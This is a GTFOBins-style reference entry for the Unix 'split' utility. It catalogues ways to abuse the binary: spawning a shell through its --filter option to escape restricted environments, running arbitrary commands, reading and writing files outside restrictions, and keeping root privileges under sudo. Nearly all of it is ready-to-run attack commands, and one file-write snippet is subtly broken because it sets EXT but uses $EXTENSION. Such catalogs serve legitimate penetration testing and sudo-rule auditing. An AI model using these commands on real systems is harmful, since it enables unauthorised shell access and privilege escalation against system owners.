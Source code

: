 # GTFOBin: split

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

The shell prompt is not printed.

```
split --filter=/bin/sh /dev/stdin
```

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

Command execution using an existing or newly created file.

```
COMMAND=id
TF=$(mktemp)
split --filter=$COMMAND $TF
```

Command execution using stdin (and close it directly).

```
COMMAND=id
echo | split --filter=$COMMAND /dev/stdin
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

Data will be written in the current directory in a file named `xaa` by default. The input file will be split in multiple smaller files unless the `-b` option is used, pick a value in MB big enough.

```
TF=$(mktemp)
echo DATA >$TF
split -b999m $TF
```

GNU version only. Data will be written in the current directory in a file named `xaa.xxx` by default. The input file will be split in multiple smaller files unless the `-b` option is used, pick a value in MB big enough.

```
EXT=.xxx
TF=$(mktemp)
echo DATA >$TF
split -b999m --additional-suffix $EXTENSION $TF
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
TF=$(mktemp)
split $LFILE $TF
cat $TF*
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The shell prompt is not printed.

```
sudo split --filter=/bin/sh /dev/stdin
```